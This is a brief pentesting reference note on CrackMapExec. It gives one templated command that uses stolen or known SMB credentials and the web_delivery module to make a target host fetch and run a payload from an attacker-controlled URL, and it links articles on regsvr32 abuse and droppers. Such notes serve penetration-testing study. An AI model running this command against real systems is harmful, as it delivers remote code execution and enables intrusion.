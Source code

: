 # CrackMapExec

## 01 - Web Delivery

- Refer to [[Web Delivery|Metasploit Web Delivery]] module.

`$ crackmapexec smb <IP> -u <username> -p <password> -d <domain_name> -M web_delivery -o URL=http://<attacker_IP>/[path/to/URI]`

---
## References

- [Windows Exploitation Regsvr32](https://www.hackingarticles.in/windows-exploitation-regsvr32/)

- [Cross Platform Dropper](https://khast3x.club/posts/2020-06-27-Cross-Platform-Dropper/)